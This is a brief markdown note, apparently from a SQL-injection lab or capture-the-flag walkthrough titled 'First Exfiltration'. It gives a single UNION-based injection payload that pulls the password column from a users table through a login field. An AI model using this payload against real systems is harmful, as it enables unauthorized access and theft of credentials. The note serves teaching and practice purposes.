

---
tags:
  - sql
  - injection
---
# First Exfiltration

This one is also straightforward. It's just a basic UNION query. The correct payload is:

```text title="First exfiltration"
admin' UNION SELECT password,null from users-- -
```



